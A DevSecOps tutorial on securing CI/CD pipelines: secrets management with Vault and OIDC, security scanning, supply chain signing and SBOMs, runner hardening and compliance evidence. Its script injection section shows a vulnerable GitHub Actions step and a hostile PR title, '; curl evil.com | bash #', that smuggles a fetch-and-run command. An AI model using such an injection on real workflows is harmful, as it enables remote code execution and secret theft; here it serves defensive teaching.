

---
# Required
sidebar_position: 7
title: "CI/CD Security and Compliance for DevOps"
description: >-
  Master CI/CD security for DevOps: secrets management, security scanning (SAST, DAST,
  SCA), supply chain hardening, and compliance automation.

# SEO
keywords:
  - ci/cd security
  - devops security
  - ci/cd compliance
  - devsecops
  - secrets management
  - vault ci/cd
  - sast
  - dast
  - dependency scanning
  - supply chain security
  - slsa
  - sigstore
  - sbom
  - compliance automation
  - pipeline security
  - oidc authentication
  - secret rotation
  - container scanning
  - learn ci/cd

# Social sharing
og_title: "CI/CD Security: Secrets, Scans, and Compliance"
og_description: "Secure DevOps pipelines with secrets management, scanning, and compliance automation that actually works."
og_image: "/img/ci-cd-social-card.svg"

# Content management
date_published: 2025-01-24
date_modified: 2026-01-25
author: shivam
reading_time: 25
content_type: explanation
---

# CI/CD Security, Compliance, and Secrets

Let me tell you about the secret that wasn't a secret.

If you're looking for CI/CD security best practices or DevSecOps pipeline guidance, security is the part you can't bolt on later. The pipeline is a target the moment you automate it.

This is the DevSecOps side of CI/CD: secure defaults, continuous verification, and fewer surprises in production.

A few years ago, I was reviewing a CI/CD pipeline for an internal service at NVIDIA. The pipeline looked fine—build, test, deploy, all the right stages. Then I noticed something in the deployment step: an API key hardcoded in the workflow file. Not in the secrets store, not encrypted—just sitting there in plain text, committed to version control.

"It's an internal API," the developer explained. "It's not a big deal."

I checked the git history. The API key had been there for eighteen months. In that time, it had been exposed to everyone with repository access, copied to every fork, cached in every runner that executed the pipeline, and potentially indexed by any tool that scanned the codebase. Worse, because it was committed early in the repo's history, removing it now wouldn't actually remove it—it would still exist in git history unless we rewrote the entire repo's history.

The key had access to a service that processed customer metadata. One compromised developer laptop, one leaked backup, one overly-broad git clone, and that data could have been exposed.

This incident taught me something important: **security in CI/CD isn't about the obvious attacks—it's about the accumulation of small exposures that create big vulnerabilities.** A hardcoded credential here, an overly-permissive token there, a missing scan step, an unpatched runner. Individually, they're minor. Combined, they're a breach waiting to happen.

This document is about building CI/CD pipelines that are secure by default. Not security as an afterthought or a checklist item, but security woven into how you build, test, and deploy software.

**What you'll learn in this guide:**
- How to manage secrets without leaking them
- The scanning layers that catch real supply chain risk
- How to harden runners and pipeline permissions
- Compliance automation that doesn't slow DevOps delivery

---

## The CI/CD Attack Surface

Before we dive into solutions, let's understand what we're defending against. CI/CD pipelines are attractive targets because they:

1. **Have access to secrets** — Deployment credentials, API keys, signing keys
2. **Can modify production** — A compromised pipeline can deploy malicious code
3. **Are often trusted** — Pipeline outputs are assumed to be legitimate
4. **Run arbitrary code** — Pipelines execute whatever's in your repository
5. **Connect to many systems** — Source control, artifact storage, cloud providers, production



### Attack Vectors

**Supply chain attacks:** Malicious code injected through dependencies. The attacker doesn't need to compromise your code—they compromise a library you use.

**Pipeline injection:** Attacker submits a PR that modifies the pipeline to exfiltrate secrets or deploy malicious code.

**Secret exfiltration:** Secrets exposed through logs, error messages, or malicious code that sends them externally.

**Artifact tampering:** Legitimate artifacts replaced with compromised versions between build and deploy.

**Runner compromise:** The machine running your pipeline is compromised, giving attackers access to everything it can access.

**Credential theft:** Long-lived credentials stolen and used outside the pipeline.

---

## Secrets Management

Secrets are the keys to your kingdom. Mismanage them, and everything else you do for security becomes irrelevant.

### The Hierarchy of Secrets Management

From worst to best:

| Level | Practice | Risk |
|-------|----------|------|
| **Terrible** | Hardcoded in code | Permanent exposure |
| **Bad** | Environment variables in CI config | Visible to anyone with repo access |
| **Acceptable** | Platform secrets (GitHub Secrets, GitLab CI Variables) | Better, but limited features |
| **Good** | External secrets manager (Vault, cloud KMS) | Centralized, auditable, rotatable |
| **Best** | Short-lived, just-in-time credentials (OIDC, dynamic secrets) | Minimal exposure window |

### Platform-Native Secrets

Every CI platform offers built-in secrets management. It's the minimum viable approach.

**GitHub Actions Secrets:**

```yaml
# Secrets are masked in logs and not exposed to forks
- name: Deploy
  run: ./deploy.sh
  env:
    API_KEY: ${{ secrets.PRODUCTION_API_KEY }}
    DATABASE_URL: ${{ secrets.DATABASE_URL }}
```

**Environment-scoped secrets:**

```yaml
jobs:
  deploy-staging:
    environment: staging
    steps:
      - name: Deploy
        run: ./deploy.sh
        env:
          # Uses staging-specific secrets
          API_KEY: ${{ secrets.API_KEY }}
  
  deploy-production:
    environment: production
    steps:
      - name: Deploy
        run: ./deploy.sh
        env:
          # Uses production-specific secrets
          API_KEY: ${{ secrets.API_KEY }}
```

**GitLab CI Variables:**

```yaml
deploy:
  script:
    - ./deploy.sh
  variables:
    # Protected variables only available on protected branches
    DATABASE_URL: $DATABASE_URL
  rules:
    - if: $CI_COMMIT_BRANCH == "main"
```

**Limitations of platform secrets:**
- No automatic rotation
- Limited auditing
- Shared across all pipeline runs
- Hard to manage at scale
- No dynamic secrets

### HashiCorp Vault Integration

When I was building services at NVIDIA that needed to handle sensitive credentials, Vault became our standard for secrets management. It provides features platform secrets can't match: fine-grained access control, automatic rotation, comprehensive audit logs, and dynamic credentials.

**Basic Vault authentication in CI:**

```yaml
- name: Get secrets from Vault
  uses: hashicorp/vault-action@v2
  with:
    url: https://vault.example.com
    method: jwt
    role: ci-role
    secrets: |
      secret/data/myapp/prod api_key | API_KEY ;
      secret/data/myapp/prod db_url | DATABASE_URL

- name: Deploy
  run: ./deploy.sh
  env:
    API_KEY: ${{ steps.vault.outputs.API_KEY }}
    DATABASE_URL: ${{ steps.vault.outputs.DATABASE_URL }}
```

**JWT authentication (better than tokens):**

```yaml
# Vault policy allowing CI access
path "secret/data/myapp/*" {
  capabilities = ["read"]
}

# JWT auth role configuration
vault write auth/jwt/role/ci-role \
  bound_claims='{"repository":"myorg/myrepo"}' \
  user_claim="actor" \
  role_type="jwt" \
  policies="ci-policy" \
  ttl=15m
```

**Dynamic database credentials:**

```yaml
- name: Get dynamic database credentials
  uses: hashicorp/vault-action@v2
  with:
    url: https://vault.example.com
    method: jwt
    role: ci-role
    secrets: |
      database/creds/myapp-role username | DB_USER ;
      database/creds/myapp-role password | DB_PASSWORD

# These credentials are generated on-demand and expire automatically
- name: Run integration tests
  run: npm run test:integration
  env:
    DB_USER: ${{ steps.vault.outputs.DB_USER }}
    DB_PASSWORD: ${{ steps.vault.outputs.DB_PASSWORD }}
```

Dynamic credentials are created just-in-time, used for the pipeline run, and automatically expire. No long-lived database passwords sitting in a secrets store.

### Cloud Provider Secret Managers

If you're on a single cloud, their native secret managers integrate well:

**AWS Secrets Manager:**

```yaml
- name: Get secrets from AWS
  uses: aws-actions/aws-secretsmanager-get-secrets@v1
  with:
    secret-ids: |
      myapp/production
  parse-json-secrets: true

- name: Deploy
  run: ./deploy.sh
  env:
    API_KEY: ${{ env.MYAPP_PRODUCTION_API_KEY }}
```

**Google Cloud Secret Manager:**

```yaml
- name: Get secrets from GCP
  id: secrets
  uses: google-github-actions/get-secretmanager-secrets@v1
  with:
    secrets: |-
      api-key:my-project/myapp-api-key
      db-url:my-project/myapp-database-url

- name: Deploy
  run: ./deploy.sh
  env:
    API_KEY: ${{ steps.secrets.outputs.api-key }}
```

### OIDC/Workload Identity: The Modern Approach

The best secret is no secret at all. OIDC (OpenID Connect) lets your CI pipeline authenticate to cloud providers without storing any credentials.

**How it works:**

1. CI platform issues a JWT token identifying the pipeline run
2. Cloud provider validates the token against the CI platform's identity provider
3. If valid, cloud provider issues short-lived credentials
4. Pipeline uses credentials, which expire automatically

```yaml
# GitHub Actions with AWS OIDC
jobs:
  deploy:
    permissions:
      id-token: write  # Required for OIDC
      contents: read
    
    steps:
      - name: Configure AWS credentials
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789:role/github-actions-role
          aws-region: us-west-2
          # No secrets needed! Authentication via OIDC token
      
      - name: Deploy to AWS
        run: aws s3 sync ./dist s3://my-bucket/
```

**AWS trust policy for OIDC:**

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Federated": "arn:aws:iam::123456789:oidc-provider/token.actions.githubusercontent.com"
      },
      "Action": "sts:AssumeRoleWithWebIdentity",
      "Condition": {
        "StringEquals": {
          "token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
        },
        "StringLike": {
          "token.actions.githubusercontent.com:sub": "repo:myorg/myrepo:*"
        }
      }
    }
  ]
}
```

**GCP Workload Identity Federation:**

```yaml
- name: Authenticate to GCP
  uses: google-github-actions/auth@v2
  with:
    workload_identity_provider: projects/123456/locations/global/workloadIdentityPools/github/providers/github
    service_account: github-actions@my-project.iam.gserviceaccount.com
    # No service account key needed!

- name: Deploy to Cloud Run
  run: gcloud run deploy myapp --image gcr.io/my-project/myapp:${{ github.sha }}
```

**Why OIDC is superior:**
- No secrets to leak or rotate
- Credentials are short-lived (minutes)
- Can restrict by repository, branch, environment
- Comprehensive audit trail
- Impossible to use credentials outside authorized context

### Secret Rotation Strategies

Even well-managed secrets should rotate regularly. Build rotation into your process:

**Automated rotation with Vault:**

```hcl
# Vault secret engine configuration
resource "vault_database_secret_backend_role" "app" {
  backend = vault_mount.database.path
  name    = "app-role"
  
  db_name = vault_database_secret_backend_connection.postgres.name
  
  creation_statements = [
    "CREATE ROLE \"{{name}}\" WITH LOGIN PASSWORD '{{password}}' VALID UNTIL '{{expiration}}';",
    "GRANT SELECT ON ALL TABLES IN SCHEMA public TO \"{{name}}\";",
  ]
  
  default_ttl = "1h"
  max_ttl     = "24h"
}
```

**CI pipeline for secret rotation:**

```yaml
name: Rotate Secrets

on:
  schedule:
    - cron: '0 0 1 * *'  # Monthly
  workflow_dispatch:

jobs:
  rotate:
    steps:
      - name: Rotate API key
        run: |
          # Generate new key
          NEW_KEY=$(openssl rand -hex 32)
          
          # Update application to accept both old and new
          # (graceful rotation without downtime)
          
          # Update secrets store
          vault kv put secret/myapp/api-key value=$NEW_KEY
          
          # Update GitHub secrets
          gh secret set API_KEY --body "$NEW_KEY"
          
          # Wait for deployments to pick up new key
          sleep 300
          
          # Revoke old key
          # ...
```

---

## Security Scanning

Automated security scanning catches vulnerabilities before they reach production.

### SAST (Static Application Security Testing)

SAST analyzes source code for security vulnerabilities without running it.

```yaml
# CodeQL for GitHub
- name: Initialize CodeQL
  uses: github/codeql-action/init@v3
  with:
    languages: javascript, python

- name: Build
  run: npm run build

- name: Perform CodeQL Analysis
  uses: github/codeql-action/analyze@v3
```

**Semgrep for custom rules:**

```yaml
- name: Semgrep scan
  uses: returntocorp/semgrep-action@v1
  with:
    config: >-
      p/security-audit
      p/secrets
      p/owasp-top-ten
```

**What SAST catches:**
- SQL injection patterns
- Cross-site scripting (XSS)
- Hardcoded credentials
- Insecure cryptographic usage
- Path traversal vulnerabilities

### DAST (Dynamic Application Security Testing)

DAST tests running applications by sending malicious requests.

```yaml
- name: Start application
  run: |
    docker-compose up -d
    sleep 30  # Wait for startup

- name: OWASP ZAP scan
  uses: zaproxy/action-full-scan@v0
  with:
    target: 'http://localhost:3000'
    rules_file_name: '.zap-rules.tsv'

- name: Stop application
  run: docker-compose down
```

**What DAST catches:**
- Actual exploitable vulnerabilities
- Configuration issues
- Authentication/authorization flaws
- Information disclosure

### Dependency/SCA Scanning

Your code is only as secure as your dependencies.

**Snyk:**

```yaml
- name: Snyk scan
  uses: snyk/actions/node@master
  env:
    SNYK_TOKEN: ${{ secrets.SNYK_TOKEN }}
  with:
    args: --severity-threshold=high
```

**Trivy (open source):**

```yaml
- name: Trivy vulnerability scan
  uses: aquasecurity/trivy-action@master
  with:
    scan-type: 'fs'
    scan-ref: '.'
    severity: 'CRITICAL,HIGH'
    exit-code: '1'
```

**Dependabot configuration:**

```yaml
# .github/dependabot.yml
version: 2
updates:
  - package-ecosystem: npm
    directory: "/"
    schedule:
      interval: daily
    open-pull-requests-limit: 10
    groups:
      minor-and-patch:
        update-types:
          - minor
          - patch
```

### Container Image Scanning

Scan container images for vulnerabilities in OS packages and application dependencies.

```yaml
- name: Build image
  run: docker build -t myapp:${{ github.sha }} .

- name: Scan image
  uses: aquasecurity/trivy-action@master
  with:
    image-ref: myapp:${{ github.sha }}
    format: 'sarif'
    output: 'trivy-results.sarif'
    severity: 'CRITICAL,HIGH'

- name: Upload results
  uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: 'trivy-results.sarif'

- name: Fail on critical vulnerabilities
  uses: aquasecurity/trivy-action@master
  with:
    image-ref: myapp:${{ github.sha }}
    severity: 'CRITICAL'
    exit-code: '1'
```

### Infrastructure as Code Scanning

Scan Terraform, CloudFormation, and Kubernetes manifests for misconfigurations.

**Checkov:**

```yaml
- name: Run Checkov
  uses: bridgecrewio/checkov-action@master
  with:
    directory: terraform/
    framework: terraform
    soft_fail: false
```

**tfsec:**

```yaml
- name: tfsec
  uses: aquasecurity/tfsec-action@v1
  with:
    working_directory: terraform/
    soft_fail: false
```

**What IaC scanning catches:**
- Public S3 buckets
- Overly permissive security groups
- Unencrypted databases
- Missing audit logging
- Privileged containers

---

## Supply Chain Security

Supply chain attacks target the tools and dependencies you use to build software. The SolarWinds and Log4j incidents showed how devastating these can be.

### The SLSA Framework

SLSA (Supply-chain Levels for Software Artifacts) is a framework for supply chain integrity. It defines levels of assurance:

| Level | Requirements |
|-------|-------------|
| **SLSA 1** | Documented build process |
| **SLSA 2** | Hosted build service, generated provenance |
| **SLSA 3** | Hardened build platform, non-falsifiable provenance |
| **SLSA 4** | Hermetic builds, reproducible |

**Generating SLSA provenance:**

```yaml
- name: Generate SLSA provenance
  uses: slsa-framework/slsa-github-generator/.github/workflows/generator_generic_slsa3.yml@v1.9.0
  with:
    base64-subjects: "${{ needs.build.outputs.digest }}"
```

### Artifact Signing with Sigstore/Cosign

Sign artifacts to prove they came from your pipeline.

```yaml
- name: Install Cosign
  uses: sigstore/cosign-installer@v3

- name: Sign image
  run: |
    cosign sign --yes \
      --oidc-issuer https://token.actions.githubusercontent.com \
      myregistry.io/myapp@${{ steps.build.outputs.digest }}

- name: Generate attestation
  run: |
    cosign attest --yes \
      --predicate ./provenance.json \
      --type slsaprovenance \
      myregistry.io/myapp@${{ steps.build.outputs.digest }}
```

**Verifying signatures before deployment:**

```yaml
- name: Verify image signature
  run: |
    cosign verify \
      --certificate-identity https://github.com/${{ github.repository }}/.github/workflows/build.yml@refs/heads/main \
      --certificate-oidc-issuer https://token.actions.githubusercontent.com \
      myregistry.io/myapp:v1.0.0
```

### Software Bill of Materials (SBOM)

SBOMs list all components in your software, enabling vulnerability tracking.

```yaml
- name: Generate SBOM
  uses: anchore/sbom-action@v0
  with:
    image: myapp:${{ github.sha }}
    format: spdx-json
    output-file: sbom.spdx.json

- name: Attach SBOM to image
  run: |
    cosign attach sbom --sbom sbom.spdx.json myregistry.io/myapp@${{ steps.build.outputs.digest }}

- name: Upload SBOM artifact
  uses: actions/upload-artifact@v4
  with:
    name: sbom
    path: sbom.spdx.json
```

### Dependency Pinning

Pin dependencies to specific versions to prevent unexpected changes.

**Lock files:** Always commit lock files (package-lock.json, poetry.lock, go.sum).

**Docker base images:**

```dockerfile
# Bad: could change any time
FROM node:20

# Better: specific version
FROM node:20.10.0

# Best: specific digest
FROM node@sha256:a5e0ed56f2c20b9689e0f7dd498cac7e08d2a3a283e92d9304e7b9b83e3c6ff2
```

**GitHub Actions:**

```yaml
# Bad: could change any time
- uses: actions/checkout@main

# Better: specific version
- uses: actions/checkout@v4

# Best: specific SHA
- uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11
```

### Private Registry Configuration

Protect against dependency confusion attacks by configuring private registries correctly.

```yaml
# .npmrc
@myorg:registry=https://npm.pkg.github.com
//npm.pkg.github.com/:_authToken=${NODE_AUTH_TOKEN}
```

```toml
# pyproject.toml
[[tool.poetry.source]]
name = "private"
url = "https://pypi.example.com/simple/"
priority = "primary"

[[tool.poetry.source]]
name = "pypi"
url = "https://pypi.org/simple/"
priority = "supplemental"
```

---

## Pipeline Security Hardening

The pipeline itself is an attack surface. Harden it.

### Runner Security

**Prefer ephemeral runners:** Runners that exist only for a single job can't accumulate compromise.

```yaml
# GitHub Actions with ephemeral self-hosted runners
runs-on: [self-hosted, ephemeral]
```

**Never use self-hosted runners for public repositories:** Any PR can run arbitrary code on your runner.

**Isolate runners:** Run them in dedicated VMs or containers, not on machines with other sensitive workloads.

### Protecting Secrets from Exfiltration

**Mask secrets in logs:**

```yaml
- name: Mask custom secret
  run: echo "::add-mask::${{ env.CUSTOM_SECRET }}"
```

**Prevent network exfiltration:**

```yaml
# Restrict network access in sensitive jobs
jobs:
  build:
    runs-on: ubuntu-latest
    container:
      image: node:20
      options: --network none  # No network access
```

**Disable command echoing:**

```yaml
- name: Sensitive operation
  run: |
    set +x  # Disable command echoing
    ./deploy.sh "${{ secrets.API_KEY }}"
```

### Script Injection Prevention

User input in workflows can be a vector for injection attacks.

```yaml
# Vulnerable: PR title could contain malicious content
- name: Print PR title
  run: echo "PR: ${{ github.event.pull_request.title }}"

# If title is "; curl evil.com | bash #", bad things happen

# Safe: use environment variable
- name: Print PR title
  run: echo "PR: $PR_TITLE"
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
```

### Third-Party Action Vetting

Third-party actions run in your security context. Vet them carefully.

```yaml
# Risk levels:
# - Official actions (actions/*): Generally safe
# - Verified creators: Lower risk
# - Unknown creators: Review carefully

# Pin to specific commits for critical actions
- uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1
```

**Questions to ask before using an action:**
- Is it from a verified creator?
- How many stars/downloads?
- Is the source code available and auditable?
- Does it request appropriate permissions?
- When was it last updated?

---

## Compliance Automation

For regulated industries, compliance isn't optional. Automate it to make it sustainable.

### Audit Trails

Every CI/CD platform maintains logs, but you may need to aggregate and retain them.

```yaml
# Send audit events to central logging
- name: Log deployment event
  run: |
    curl -X POST "${{ secrets.AUDIT_LOG_URL }}" \
      -H "Content-Type: application/json" \
      -d '{
        "event": "deployment",
        "environment": "production",
        "artifact": "${{ github.sha }}",
        "actor": "${{ github.actor }}",
        "timestamp": "$(date -u +%Y-%m-%dT%H:%M:%SZ)",
        "workflow": "${{ github.workflow }}",
        "run_id": "${{ github.run_id }}"
      }'
```

### Separation of Duties

Compliance often requires that the person who writes code isn't the same person who deploys it.

```yaml
deploy-production:
  environment:
    name: production
  # Different approvers for deployment
  # Configure in GitHub: Settings > Environments > production > Required reviewers
  steps:
    - name: Deploy
      run: ./deploy.sh
```

**GitLab protected environments:**

```yaml
deploy-production:
  stage: deploy
  environment:
    name: production
  rules:
    - if: $CI_COMMIT_BRANCH == "main"
      when: manual
  # Protected environments require approval from specific users/groups
```

### Evidence Collection

Automate the collection of compliance evidence:

```yaml
- name: Collect compliance evidence
  run: |
    mkdir -p evidence
    
    # Code review evidence
    gh pr view ${{ github.event.pull_request.number }} --json reviews > evidence/code-review.json
    
    # Test results
    cp test-results.xml evidence/
    
    # Security scan results
    cp security-scan.sarif evidence/
    
    # SBOM
    cp sbom.spdx.json evidence/

- name: Upload evidence
  uses: actions/upload-artifact@v4
  with:
    name: compliance-evidence-${{ github.sha }}
    path: evidence/
    retention-days: 2555  # 7 years for compliance
```

### Common Compliance Frameworks

**SOC 2:**
- Change management controls
- Access controls and least privilege
- Audit logging
- Incident response procedures

**HIPAA (Healthcare):**
- All above, plus
- Encryption of PHI
- Access audit trails
- Data retention policies

**PCI-DSS (Payment):**
- Secure development practices
- Vulnerability management
- Access control
- Network segmentation

**FedRAMP (Government):**
- Strict change control
- Continuous monitoring
- Incident response
- Supply chain risk management

---

## Network Security for CI/CD

### Private Runners

For accessing private resources, use runners inside your network:

```yaml
# Self-hosted runner in private network
runs-on: [self-hosted, private-network]

steps:
  - name: Access internal resource
    run: curl https://internal-api.corp.example.com
```

### VPN Connectivity

Some pipelines need VPN access:

```yaml
- name: Connect to VPN
  uses: kota65535/github-openvpn-connect-action@v2
  with:
    config_file: .github/vpn/config.ovpn
    client_key: ${{ secrets.OVPN_CLIENT_KEY }}

- name: Access internal resource
  run: curl https://internal-api.example.com
```

### Network Policies for Kubernetes Runners

If running CI on Kubernetes, use network policies:

```yaml
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: ci-runner-policy
spec:
  podSelector:
    matchLabels:
      app: ci-runner
  policyTypes:
    - Egress
  egress:
    # Allow access to artifact registry
    - to:
        - ipBlock:
            cidr: 10.0.0.0/8
      ports:
        - port: 443
    # Allow DNS
    - to:
        - namespaceSelector: {}
          podSelector:
            matchLabels:
              k8s-app: kube-dns
      ports:
        - port: 53
          protocol: UDP
```

---

## Common Security Mistakes

### Mistake 1: Secrets in Plain Text

```yaml
# NEVER DO THIS
- run: curl -H "Authorization: Bearer sk-12345abcdef" https://api.example.com
```

### Mistake 2: Overly Permissive Tokens

```yaml
# Bad: token with write access to everything
GITHUB_TOKEN with admin permissions

# Good: minimal required permissions
permissions:
  contents: read
  packages: write
```

### Mistake 3: Missing Security Scanning

```yaml
# Missing: No security checks at all
jobs:
  build:
    steps:
      - run: npm install
      - run: npm build
      - run: deploy

# Include security scanning
jobs:
  build:
    steps:
      - run: npm ci  # Use ci for reproducible installs
      - run: npm audit --audit-level=high
      - run: npm build
  
  security:
    steps:
      - uses: snyk/actions/node@master
      - uses: github/codeql-action/analyze@v3
```

### Mistake 4: Ignoring Failing Security Scans

```yaml
# Bad: Security scan runs but doesn't block
- name: Security scan
  run: npm audit
  continue-on-error: true  # Vulnerabilities are ignored!

# Good: Security scan blocks on issues
- name: Security scan
  run: npm audit --audit-level=high  # Fails on high+ vulnerabilities
```

### Mistake 5: Long-Lived Credentials

```yaml
# Bad: Service account key stored as secret
- uses: google-github-actions/auth@v2
  with:
    credentials_json: ${{ secrets.GCP_SA_KEY }}  # Long-lived, rotatable nightmare

# Good: Workload identity, no stored credentials
- uses: google-github-actions/auth@v2
  with:
    workload_identity_provider: projects/123/locations/global/workloadIdentityPools/github/providers/github
    service_account: github-actions@project.iam.gserviceaccount.com
```

---

## FAQ: CI/CD Security and Compliance

### What is CI/CD security in DevOps?

It's the practice of securing the pipeline itself—secrets, runners, dependencies, and artifacts—so attackers can't use automation to ship malicious changes.

### Should security scans block the pipeline?

Yes, for high-severity findings. If scans never block, teams learn to ignore them and vulnerabilities ship anyway.

### How do I manage secrets without hardcoding them?

Use platform secrets plus OIDC or Vault-backed short-lived credentials. Rotate regularly and keep permissions least-privileged.

## Related Reading

- [Artifact Management: Secure build outputs and provenance →](./artifact-management)
- [Deployment Strategies: Ship safely with gated rollouts →](./deployment-strategies)
- [Enterprise CI/CD: Governance at scale →](./enterprise-cicd)

---

## What's Next?

You now understand how to secure your CI/CD pipeline: managing secrets properly with Vault and OIDC, implementing security scanning at multiple levels, protecting against supply chain attacks, and meeting compliance requirements.

But security is just one aspect of getting code to production. The next document in this series covers **Deployment Strategies**: how to actually ship your code using rolling deployments, blue-green, canary releases, and feature flags.

**Ready to learn deployment strategies?** Continue to [Deployment Strategies →](./deployment-strategies)

---

## Quick Reference

### Secrets Management Hierarchy

| Level | Approach | Security |
|-------|----------|----------|
| 1 | Hardcoded | ❌ Never |
| 2 | Platform secrets | ⚠️ Acceptable |
| 3 | Vault/Cloud KMS | ✅ Good |
| 4 | OIDC/Dynamic secrets | ✅ Best |

### Security Scanning Types

| Type | What It Scans | When to Run |
|------|--------------|-------------|
| SAST | Source code | Every PR |
| DAST | Running application | Before deployment |
| SCA | Dependencies | Every build |
| Container | Container images | After build |
| IaC | Infrastructure code | Every PR |

### OIDC Setup Checklist

- [ ] Configure identity provider in cloud (AWS, GCP, Azure)
- [ ] Create trust policy/workload identity pool
- [ ] Set `id-token: write` permission in workflow
- [ ] Remove long-lived credentials
- [ ] Test authentication flow
- [ ] Restrict to specific repos/branches

### Supply Chain Security Checklist

- [ ] Pin all dependencies (lock files committed)
- [ ] Pin Docker base images to digests
- [ ] Pin GitHub Actions to commits
- [ ] Sign artifacts with Cosign
- [ ] Generate and publish SBOM
- [ ] Configure private registry for internal packages
- [ ] Enable Dependabot/Renovate for updates

### Warning Signs

- Secrets visible in logs
- Long-lived credentials in secrets store
- Security scans that never fail builds
- No dependency vulnerability scanning
- Public repository with self-hosted runners
- Unpinned dependencies or actions

---

**Remember:** Security isn't a feature you add at the end—it's a property of how you build. Secure by default, verify continuously, and treat every secret like it's already been compromised.
